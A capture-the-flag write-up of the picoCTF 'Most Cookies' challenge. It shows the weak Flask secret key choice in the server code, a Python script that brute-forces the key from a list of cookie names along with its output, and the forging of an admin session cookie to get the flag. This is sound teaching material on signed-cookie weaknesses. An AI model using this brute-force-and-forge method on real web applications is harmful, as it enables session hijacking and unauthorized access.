



# Most Cookies

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](http://ctf.infury.org:8000/files/09733221d1d0f2351aedaa8f64902dd8/server.py)

http://mercury.picoctf.net:44693/

##### Hint

> How secure is a flask cookie?

## WP

Go into the website and find that there is a search bar allowing us to input name of Cookies, just the same as [Cookies](Cookies.md).



However, this time the website uses Flask session as the way to verify the identity of the user.

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

# ...

@app.route("/display", methods=["GET"])
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template("flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```

Open the source code of this website, I found two critical parts: the website will randomly choose one string from `cookie_names` as `app.secret_key`, whose usage is unknow yet. Also, once the value of `very_auth` in the session is detected to be `admin`, the website will show the flag.

So the task is clear now: change the value of our session and make the value of `very_auth` be `admin`.

I inspected the my Cookie information and found:

```xml
Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YP0rUQ.42tz9__ZuZYKAKS18w_TSMV0ovs
```

Then I Googled the principle of Flask session and found it totally different from the traditional principle of session. 

Traditional web servers will create a file containing the Cookie information of the user on the server side and name the file with a session ID, then the client side will tell its Cookie information to server by sending this session ID. However, in Flask there is no file creation. All the Cookie information is contained in the session string with a simple BASE64 encoding, and Flask will generate a fingerprint for each session ID to prevent it from being modified by user, and this is where the `app.secret_key` was used.

So now we need to brute force the session string to find the string in `cookie_names` that is used as `app.secret_key`.

I used this [noraj/flask-session-cookie-manager: Flask Session Cookie Decoder/Encoder (github.com)](https://github.com/noraj/flask-session-cookie-manager) to help decoding the session string. The brute force script is shown below:

```python
import os

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

for key in cookie_names:
    command = f'python D:/Software/flask-session-cookie-manager/flask_session_cookie_manager3.py decode -s "{key}" -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YP0rUQ.42tz9__ZuZYKAKS18w_TSMV0ovs'
    print(f"Trying [{key}]: ", end="")
    os.system(command)
```

Output:

```xml
Trying [snickerdoodle]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [chocolate chip]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [oatmeal raisin]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [gingersnap]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [shortbread]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [peanut butter]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [whoopie pie]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [sugar]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [molasses]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [kiss]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [biscotti]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [butter]: {'very_auth': 'blank'}
Trying [spritz]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [snowball]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [drop]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [thumbprint]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [pinwheel]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [wafer]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [macaroon]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [fortune]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [crinkle]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [icebox]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [gingerbread]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [tassie]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [lebkuchen]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [macaron]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [black and white]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [white chocolate macadamia]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
```

So we know that `app.secret_key` is `butter`.

Then I forged the session string using butter, set the value of `very_auth` with `admin`.



Access `/display` page with this session and finally I got the flag.



